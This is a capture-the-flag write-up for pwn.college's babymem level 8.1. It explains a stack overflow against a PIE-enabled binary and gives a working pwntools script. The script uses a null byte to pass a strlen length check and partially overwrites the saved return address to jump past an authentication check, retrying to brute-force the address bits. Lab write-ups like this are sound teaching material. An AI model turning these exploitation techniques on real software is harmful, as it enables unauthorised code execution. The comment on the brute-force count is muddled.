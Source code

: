 



## Challenge Name: 
**Category:** Level 8.1

### Description

In this level, we need to force the program to execute the win_authed() function
by directly overflowing into the stored return address back to main.

Standard memory corruption mitigations for this challenge:
- the canary is disabled
- PIE is ENABLED

One caveat in this challenge is that the win_authed() function must first auth:
it only lets you win if you provide it with the argument 0x1337.
Speifically, the win_authed() function looks something like:
    void win_authed(int token)
    {
      if (token != 0x1337) return;
      puts("You win! Here is your flag: ");
      sendfile(1, open("/flag", 0), 0, 256);
      puts("");
    }


### Approach

In this level, **PIE** (Position Independent Executable) is enabled, which means we don't know the exact address of our target. However, since pages are aligned to 0x1000, we can just overwrite the offset.

Analyzing the binary on Gidra I found where will the buffer be stored inside the stack, knowing its offset form the RBP helps to understand the size of the payload.

![img](</pwn-college/memory-errors/level8/images/img1.png>)


The challenge will allocate a correctly-sized temporary
buffer on the heap for the payload, and then copy the data over to the stack to try avoiding BOFs(Buffer OverFlow):

```
if( 0x39 < strlen(buff_heap))
```
inserting a null byte '\x00' inside the payload is enought to bypass this check.

![img](</pwn-college/memory-errors/level8/images/img2.png>)

About the **win_authed()** function is easy to bypass the check, it's enought to overwrite the return address past the token check to bypass it!
To do this, we will need to analyze the program, identify where the check is in the win_authed() function, find the address right after the check, and write that address over the saved return address.

![img](</pwn-college/memory-errors/level8/images/img3.png>)

As said before, since the PIE is active we will bruteforce the 2 least significant bytes of the found address: <1f 20>

So the payload information and data ectracted are:

payload_size =
 - Offset between buffstart and RBP
 - +8 bytes of RBP
 - +2 bytes of the least significant bytes that we are bruteforcing

PAYLOAD = 
  - \x00(null_byte)
  -  RANDOM DATA till Return Address start
  -  \x1f \x20


### Solution
[Code here](/pwn-college/memory-errors/level8/solution.py)

```
# Import necessary module from the pwntools library
from pwn import *

# Initialize a flag to track whether the desired condition is met
found = False

# Since we have to bruteforce 2 bytes -> 16 possible values
# we iterate 16/2 times  = 8
for x in range(8):
    
    # If the desired condition is already found, break out of the loop
    if found:
        break

    # Create an ELF object representing the binary file
    elf = ELF('/challenge/babymem_level8.1')

    # Start a new process of the binary
    io = elf.process()

    # Receive data from the process until a specified string is encountered
    io.recvuntil(': ')

    # Define sizes for different parts of the payload
    ret_size = 8
    RBP_size = 8
    least_significant_size = 2
    null_byte_size = 1

    # Define a null byte
    null_byte = b'\x00'

    # Initialize RBP (base pointer) value just for calculation purpose
    RBP = 0

    # Starting address of the buffer
    buff_start = RBP - 0x60

    # Calculate the size of the payload as
    #|Buff start| ---overflow data--| ---overflow rbp--| change only 2 bytes of RET addr|
    payload_size = abs(buff_start - RBP) + RBP_size + least_significant_size

    # Send the payload size to the process
    io.sendline(f'{payload_size}'.encode())

    # Receive data from the process until '!' is encountered
    io.recvuntil('!')             

    # Define the least significant bytes of the return address that we are bruteforcing
    least_significant_byte_ret = '20 1f'

    # Construct the payload
    PAYLOAD = null_byte + b'A' * (payload_size - least_significant_size - null_byte_size)
    PAYLOAD += bytes(bytearray.fromhex(least_significant_byte_ret))

    # Send the payload to the process
    io.sendline(PAYLOAD)

    # Receive all output from the process and decode it
    output = io.recvall().decode()

    # Check if the output contains the string "You win!"
    if "You win!" in output:
        # If so, set the flag to True and print the output
        found = True
        print(output)

```
  

---
<a href="/pwn-college/main.md" class="btn">Back to home</a>
